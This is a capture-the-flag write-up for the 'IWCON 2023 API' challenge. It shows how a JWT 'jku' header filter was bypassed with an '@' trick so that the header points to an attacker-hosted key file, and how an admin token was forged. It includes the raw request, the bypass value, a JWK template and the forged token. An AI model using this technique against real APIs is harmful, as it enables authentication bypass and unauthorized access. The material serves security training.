 ```yaml
---
title: IWCON23 CTF
image: assets/writeups/trace4.jpeg
description: Writeup for challenge IWCON 2023 API solved in IWCON 2023 
date: 2023-06-23 16:30:00 -3000
categories: [CTFwriteups]
tags: [API, web]
author: trace
---
```


![](https://imgur.com/HDfHZOD.png)
### **IWCON 2023 API**

#### **Step 1: Unveiling the Exploited Token Mechanism**

Our team scrutinized a POST request, uncovering a potential threat. This comprehensive analysis exposed the utilization of a manipulated token within the request to gain unauthorized access to sensitive information.

**POST Request Details:**
```http
POST /api/v2/getFlag HTTP/1.1
Host: 3.111.42.9:9595
User-Agent: curl/8.4.0
Accept: */*
Content-Length: 540
Content-Type: application/x-www-form-urlencoded
Connection: close
token=eyJqa3UiOiJodHRwczovLzc1N2YtMTE0LTM2LTE3LTIxNS5uZ3Jvay1mcmVlLmFwcCIsImtpZCI6IjY3ZTVjNjkyLWMzYzUtNDcwNi05MmVmLTUzMGUyZGU4YWIwMCIsInR5cCI6IkpXVCIsImFsZyI6IlJTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIn0.OJY-8-9hUxEtSTH3w_LzfvC4ijYVbVBPCRzOII6JWIPLiwX3PFcpdo1Gks4vi3dpGAoX6ZJRAyQm7QDzRv083GngSqF1ZrH5ZfNEt8MWqK28rpVQx9BnatUxXYdaA3gNiWtPPyDl9cJsX1T6w4MCRljb9qih_gOCMjAtV6KxxKR2nJAPhSUbR0yzr7c13UWFQNnifSwBLGMcbxg2Doeh-fBqSS4JvueXKnQRyV-Th5RBlvUx6prQGk0IXW1I-93dCkbWXSUDX4JCzqXHa6qI0xgp_akhz8S1pcwq2sUECujVAgz75ke-pzQhSkzh5wN1G_T5jXEcKKIMTcg6JlKCWw
```

#### **Step 2: Manipulating the "jku" Parameter for Unauthorized Access**

Upon closer inspection, our team identified the "jku" parameter, pointing to "http://3.111.42.9/". Further investigation revealed a filter in place, leading to the discovery that leveraging the "@" symbol could redirect communication to a malicious server. To bypass the imposed filter, the "jku" parameter was manipulated to `"jku": "http://3.111.42.9@167.235.239.14:1445/.well-known/jwk.json"`. Notably, the requested `jwk.json` was then hosted on the attacker's server.

**JWK JSON Payload:**
```json
{"mykeys":[{"alg":"RS256","e":"AQAB","kid":"1234","kty":"RSA","n":"...","use":"sig"}]}
```

#### **Step 3: Generating the "N" Value for Unauthorized Token Creation**

With the obtained JWK data, we extracted the "N" value and proceeded to craft a new JWT token, embedding the desired username to facilitate the extraction of the target flag.

**Final JWT Token:**
```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IjEyMzQiLCJqa3UiOiJodHRwOi8vMy4xMTEuNDIuOUBSRURBQ1RFRDoxNDQ1Ly53ZWxsLWtub3duL2p3ay5qc29uIn0.eyJ1c2VybmFtZSI6Iml3Y29uIiwiYWRtaW4iOiJ0cnVlIn0.Ki_I4KqmCbEwbN8hEU7NiKsbsyBKUlDKuNSwZthXPZLUAY0x4FruBP5YKyBl-ohR6BPH8IEYt72smgMF4tEuUc0kyyJnOmr0e_VujEa5V23uo80I39rPB3H3U4t5XBEviZKd2haf2h5fkgW3ZNm6SdvvcweKyYpRkTjEAIDR1F5Th2ygjSl6hC8mBuX3cE_Xu4-Wh7EkotWB3hBbSNDrmsxeH2amqA6ZbP6Gwm7aCv0MWHvgGbT1KUtxQZM0WlmcqQlblO4UkYet7_byppX5TIdLy5aB-r6RvSiL9H6HI0VtjkWBu_BFmKywW0aPWVVJuG34ewtO5tTHTmtNFUqnWg
```

Acknowledgments to the shadowbrokers team for their collaborative effort:
- [https://twitter.com/Hac10101](https://twitter.com/Hac10101)
- [https://twitter.com/C15C01337](https://twitter.com/C15C01337)
- [https://twitter.com/5hriyan5h](https://twitter.com/5hriyan5h)
- [https://twitter.com/0xManan](https://twitter.com/0xManan)
- [https://twitter.com/Saitleop](https://twitter.com/Saitleop)
